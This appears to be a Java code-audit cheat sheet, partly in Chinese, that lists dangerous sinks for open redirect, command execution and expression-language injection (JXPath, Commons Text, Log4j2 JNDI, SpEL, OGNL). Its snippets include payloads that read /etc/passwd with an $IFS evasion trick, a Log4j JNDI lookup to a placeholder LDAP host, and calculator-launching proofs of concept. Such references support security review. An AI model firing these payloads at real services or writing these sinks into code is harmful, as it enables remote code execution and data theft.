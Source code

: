 ```java
response.sendRedirect(redirectURL);
```
- setHeader
```java
response.setHeader("Location", "http://www.baidu.com");
```
### Command Execution
- Runtime.getRuntime.exec
```java
Runtime.getRuntime().exec(new String[]{"sh","-c","whoami"});
```
- ProcessBuilder.start
```java
ProcessBuilder processBuilder = new ProcessBuilder(new String[]{"sh","-c","whoami;cat$IFS/etc/passwd"});
Process start = processBuilder.start();
```
- GroovyShell.evaluate
```java
GroovyShell gs = new GroovyShell();
gs.evaluate("print 'whoami'.execute().text");
```
- ScriptEngine
```java
ScriptEngineManager factory = new ScriptEngineManager();
ScriptEngine engine = factory.getEngineByName("JavaScript");
if (engine == null)
    engine = factory.getEngineByName("Rhino JavaScript");  // ServiceMix
engine.eval("var x=new java.lang.ProcessBuilder; x.command(\"curl\",\"http://127.0.0.1:8000/cmd\"); x.start()");
```
- UNIXProcess/ProcessImpl
- org.python.util.PythonInterpreter
```java
PythonInterpreter interpreter = new PythonInterpreter();
interpreter.exec("import os\nos.system('open -na Calculator')");
```
### Expression Language
- Apache Commons Jxpath <= 1.3(CVE-2022-41852)
```java
JXPathContext context = JXPathContext.newContext(null);
context.getValue("exec(java.lang.Runtime.getRuntime(),'open -na Calculator')");
```
- Apache Common Text(prior to 1.10.0)
```java
StringSubstitutor interpolator = StringSubstitutor.createInterpolator();
interpolator.replace("${script:js:java.lang.Runtime.getRuntime().exec(\"open -a Calculator\")}");
```
- Log4j2
```java
logger.error("${jndi:ldap://x.x.x.x/exp}");
```
- SPEL
```java
SpelExpressionParser parser = new SpelExpressionParser();
Expression expression = parser.parseExpression(input);
expression.getValue().toString();
```
- OGNL
```java
OgnlContext context = new OgnlContext();
Ognl.getValue("@java.lang.Runtime@getRuntime().exec('calc')", context, context.getRoot());
```
具体可触发OGNL解析的接口请参考[mi1k7ea大佬的总结](https://www.mi1k7ea.com/2020/03/16/OGNL%E8%A1%A8%E8%BE%BE%E5%BC%8F%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E%E6%80%BB%E7%BB%93/)
